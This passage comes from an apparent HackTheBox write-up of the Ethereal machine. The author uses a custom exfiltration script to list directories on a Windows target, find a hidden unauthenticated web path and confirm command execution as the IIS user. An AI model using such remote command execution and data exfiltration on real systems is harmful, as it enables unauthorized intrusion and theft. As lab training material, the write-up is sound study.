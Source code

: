 **dir c:\users\alan**


```bash
$> dir /b c:\users\alan
(col#)> 
[+] Receiving data:
b'Contacts'
b'Desktop'
b'Documents'
b'Downloads'
b'Favorites'
b'Links'
b'Music'
b'Pictures'
b'Saved'
b'Searches'
b'Videos'
```

**dir c:\users\alan\desktop**

```bash
$> dir /b c:\users\alan\desktop
(col#)> 
[+] Receiving data:
b'note-draft\x03txt'
```

Too bad, there's no flag... let's keeping looking.

**dir c:\inetpub\wwwroot**
```bash
$> dir /b c:\inetpub\wwwroot
(col#)> 
[+] Receiving data:
b'corp'
b'default\x04aspx'
b'p1ng'
timed out
```

Interesting, there's a directory `p1ng`, let's check check it out:

![](/assets/images/htb-writeup-ethereal/web3.png)

Wow, so we didn't even need the credentials from the password manager have we known this hidden path.

I got really stuck at this point and spent the next several hours trying to find ways to get a proper shell, or find hidden files that would allow me to get unstuck. I didn't get far until at some point after I had switched the path invoked by the script to use the unauthenticated page on port 80, I realized that the `whoami` output I was now getting was different.

```bash
root@kali:~/hackthebox/Machines/Ethereal# ./exfil_iis.py 
$> whoami
(col#)> 
[+] Receiving data:
b'iis'
```
